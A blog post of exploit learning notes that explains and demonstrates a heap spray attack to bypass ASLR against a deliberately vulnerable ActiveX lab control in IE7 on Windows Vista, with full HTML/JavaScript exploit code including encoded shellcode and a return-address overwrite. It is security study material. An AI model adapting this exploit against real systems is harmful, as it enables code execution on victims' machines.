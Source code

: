 ```yaml
---
title: Exploit learning notes 019 Using HeapSpray Attack ASLR
description: Use Heap Spray technique to attack ASLR and locate shellcode
date: 2020-11-28 12:38:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


Source: [Moeomu's blog](/posts/exploit-learning-notes-019-using-heapspray-attack-aslr/)

## Principle

By requesting a large amount of memory, occupying the 0x0C0C0C0C locations in memory, and placing 0x90 and shellcode in these memories, and finally controlling the program to go to 0x0C0C0C0C for execution. As long as the luck is not so bad that 0x0C0C0C0C0C happens to be located somewhere in the shellcode, the shellcode will be executed successfully

## Experiment

### Preparation

> Environment: System: Windows Vista SP0, DEP Status: Default, Browser: IE7

- Still use the previously used [Vulner_AX.dll](https://pan.moeomu.com/Tutorial/0Day安全-资料/VulnerAX_SEH/VulnerAX.ocx) as the target of the attack
- UUID of `CVulnerAXCtrl's class information` in `VulnerAX.idl`: `ACA3927C-6BD1-4B4E-8697-72481279AAEC`

### Idea

- We use the Heap spray technique to request 200 1MB memory blocks in memory to counteract the randomization process of ASLR
- Each memory block contains 0x90 padding and shellcode
- After Heap spray we occupy the memory near `0x0C0C0C0C`, we just control the program to go to `0x0C0C0C0C` for execution, and after several 0x90 slides we can reach the shellcode range and execute
- There is a typical overflow vulnerability in the test function, where the function return address can be overwritten by copying a very long string
- We will overwrite the function return address as `0x0C0C0C0C`, after the function execution returns to execution will be transferred to the memory space we apply

### Code

```html
<html>
<body>
<script>
    var nops = unescape("%u9090%u9090");
    var shellcode = "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u616B\u6F6F\u4D68\u7369\u8B61\u53c4\u5050\uff53\ufc57\uff53\uf857";
    while (nops.length < 0x100000)
        nops += nops;
    nops = nops.substring(0, 0x100000/2-32/2-4/2-2/2-shellcode.length);
    nops = nops + shellcode;
    var memory = new Array();
    for (var i = 0; i < 200; i++)
        memory[i] += nops;
</script>
<object classid="clsid:ACA3927C-6BD1-4B4E-8697-72481279AAEC" id="test"> </object>
<script>
    var s = "\u9090";
    while (s.length < 54)
    {
        s += "\u9090";
    }
    s += "\u0C0C\u0C0C";
    test.test(s);
</script>
</body>
</html>
```

### Result

- Successful attack on ASLR, as shown in the figure

![pic1](https://s3.ax1x.com/2020/11/28/DyUSMR.png)  
![pic2](https://s3.ax1x.com/2020/11/28/DyUcl9.jpg)  
![pic3](https://s3.ax1x.com/2020/11/28/DyN3vR.png)

